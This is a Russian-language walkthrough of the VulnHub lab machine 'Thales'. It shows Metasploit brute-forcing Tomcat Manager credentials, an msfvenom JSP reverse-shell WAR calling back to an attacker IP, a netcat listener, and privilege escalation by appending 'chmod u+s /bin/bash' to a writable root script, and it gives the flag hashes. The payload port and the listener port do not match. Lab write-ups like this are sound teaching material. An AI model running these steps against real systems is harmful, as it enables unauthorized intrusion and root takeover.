









# VulnHub: Thales

> **Author:** mapanit
> **Date:** 25.07.2026
> **Target IP:** `192.168.1.71`
> **Attacker IP:** `192.168.1.37`
> **Difficulty:** Beginner

---

## Executive Summary

Целевая машина содержала уязвимую конфигурацию сервиса **Apache Tomcat**, а также небезопасный конфигурационный файл, используемый механизмом резервного копирования на стороне root.

1. **Слабые учётные данные Tomcat Manager** — учётная запись `tomcat` / `role1` позволила пройти аутентификацию в панели Tomcat Manager App через Metasploit-модуль `tomcat_mgr_login`, после чего был загружен вредоносный `.war`-файл с обратной оболочкой (reverse shell), что дало первоначальный доступ к системе.
2. **Небезопасный скрипт `backup.sh`**, выполняемый с правами `root` — файл имел разрешения на запись для текущего пользователя, что позволило внедрить в него команду `chmod u+s /bin/bash` и после выполнения скрипта по расписанию/от имени root получить SUID-бит на `/bin/bash`, что привело к полной эскалации привилегий до root.

Обе уязвимости относятся к классам **Weak/Default Credentials (CWE-521)** и **Insecure File Permissions / Privilege Escalation via Writable Root Script (CWE-732, OWASP A05:2021 — Security Misconfiguration)**.

---

## Разведка

Поиск машины в сети:

```bash
netdiscover -r 192.168.1.71
```



Сканирование портов и служб:

```bash
nmap -A 192.168.1.71
```

**Результат:** обнаружены два открытых порта:

- `22` — SSH
- `8080` — HTTP (Apache)


## Уязвимость №1 — слабые учётные данные Tomcat Manager

При обращении к веб-интерфейсу на порту `8080` обнаружена панель управления **Tomcat Manager App**, защищённая базовой аутентификацией.



### Подбор учётных данных через Metasploit

```bash
msfconsole
search tomcat login
use 0
show options
set rhosts 192.168.1.71
set username tomcat
set verbose false
exploit
```





**Результат:** получены рабочие учётные данные — `tomcat:role1`.

Учётные данные подтверждены вручную через веб-интерфейс: раздел **Manager App** → ввод логина и пароля → успешный вход.




### Генерация и загрузка reverse shell (.war)

```bash
msfvenom -p java/jsp_shell_reverse_tcp lhost=192.168.1.37 lport=1234 -f war > s123hell.war
```



Запущен листенер:

```bash
nc -lnvp 4444
```




После деплоя `.war`-файла и обращения к соответствующему пути на сервере получена обратная оболочка — первоначальный доступ к системе получен.

### Стабилизация оболочки

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
cd /home/thales
ls
cat user.txt
cat notes.txt
```

В `notes.txt` обнаружена подсказка о том, что скрипт `backup.sh` выполняется с правами root.

## Уязвимость №2 — небезопасный скрипт backup.sh (Privilege Escalation)

### Проверка прав доступа

```bash
ls -l /usr/local/bin/backup.sh
```

**Результат:** скрипт доступен на запись текущему пользователю, при этом выполняется от имени `root`.

### Эксплуатация

В скрипт добавлена команда, устанавливающая SUID-бит на `/bin/bash`:

```bash
echo "chmod u+s /bin/bash" >> /usr/local/bin/backup.sh
```

После выполнения скрипта от имени root проверяем результат:

```bash
ls -l /bin/bash
```

Получена оболочка с правами root через SUID-бит (см. [GTFOBins: bash](https://gtfobins.github.io/gtfobins/bash/)):

```bash
bash -p
```

**Root-доступ получен.**

## Флаги

```bash
cat user.txt
```

**user.txt:** `a837c0b5d2a8a07225fd9905f5a0e9c4`

```bash
cd ../../root
cat root.txt
```

**root.txt:** `3a1c85bebf8833b0ecae900fb8598b17`
